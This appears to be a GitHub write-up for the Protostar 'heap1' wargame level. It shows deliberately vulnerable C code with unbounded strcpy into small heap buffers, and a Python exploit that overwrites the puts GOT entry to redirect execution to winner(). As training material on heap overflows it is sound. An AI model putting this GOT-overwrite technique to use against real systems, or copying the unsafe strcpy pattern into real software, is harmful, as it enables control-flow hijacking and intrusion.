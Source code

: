# Heap One

## Description

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Exploit script

```python
from struct import pack
from os import system

arg1 = "A"*20 + pack("I", 0x08049774)   # puts@got
arg2 = pack("I", 0x08048494)            # overwirte puts@got -> winner

system('./heap1 ' + '\"' + arg1 + '\"' + ' ' + '\"' + arg2 + '\"') 
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>
